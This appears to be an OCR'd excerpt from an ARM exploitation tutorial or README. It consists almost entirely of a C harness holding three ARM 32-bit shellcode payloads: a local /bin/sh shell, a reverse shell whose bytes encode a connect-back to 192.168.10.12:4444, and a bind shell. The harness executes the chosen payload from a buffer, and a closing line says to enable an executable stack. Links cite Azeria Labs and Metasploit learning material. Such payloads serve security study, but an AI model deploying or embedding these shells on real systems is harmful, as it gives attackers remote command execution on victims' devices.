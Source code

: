     #if defined(SIMPLE_SHELL)

    char *shellcode =
    "\x01\x10\x8f\xe2\x11\xff\x2f\xe1"
    "\x02\xa0\x49\x40\x52\x40\x0b\x27"
    "\x01\xdf\x41\x41\x2f\x62\x69\x6e"
    "\x2f\x73\x68";

    #elif defined(REVERSE_SHELL)

    char *shellcode =
    "\x01\x10\x8f\xe2\x11\xff\x2f\xe1"
    "\x0e\xa0\x52\x40\x42\x70\xc2\x73"
    "\x02\x20\x01\x21\xc8\x27\x51\x37"
    "\x01\xdf\x04\x1c\x20\x1c\x09\xa1"
    "\x10\x22\x02\x37\x01\xdf\x20\x1c"
    "\x49\x40\x3f\x27\x01\xdf\x20\x1c"
    "\x01\x21\x01\xdf\x20\x1c\x02\x21"
    "\x01\xdf\x04\xa0\x49\x40\x52\x40"
    "\x0b\x27\x01\xdf\x02\xff\x11\x5c"
    "\xc0\xa8\x0a\x0c\x2f\x62\x69\x6e"
    "\x2f\x73\x68\x41";

    #elif defined(BIND_SHELL)

    char *shellcode =
    "\x01\x10\x8f\xe2\x11\xff\x2f\xe1"
    "\x13\xa0\x52\x40\x42\x70\x42\x60"
    "\xc2\x73\x02\x20\x01\x21\xc8\x27"
    "\x51\x37\x01\xdf\x04\x1c\x0e\xa1"
    "\x10\x22\x01\x37\x01\xdf\x20\x1c"
    "\x01\x21\x02\x37\x01\xdf\x20\x1c"
    "\x49\x40\x52\x40\x01\x37\x01\xdf"
    "\x04\x1c\x20\x1c\x49\x40\x3f\x27"
    "\x01\xdf\x20\x1c\x01\x21\x01\xdf"
    "\x20\x1c\x02\x21\x01\xdf\x04\xa0"
    "\x49\x40\x52\x40\x0b\x27\x01\xdf"
    "\x02\xff\x11\x5c\xff\xff\xff\xff"
    "\x2f\x62\x69\x6e\x2f\x73\x68\x41";

    #endif


    int main()
    {
        char payload[128];

        strcpy(payload, shellcode);

        printf("length = %d\n", strlen(payload));

        (*(void(*)()) payload) ();
    }


Make sure to enable an executable stack when linking.


[azeria-bind-shell]: https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/
[azeria-reverse-shell]: https://azeria-labs.com/tcp-reverse-shell-in-assembly-arm-32-bit/
[ms-reverse-shell]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit
[mov-immed-arm]: http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0473e/Chdfgchf.html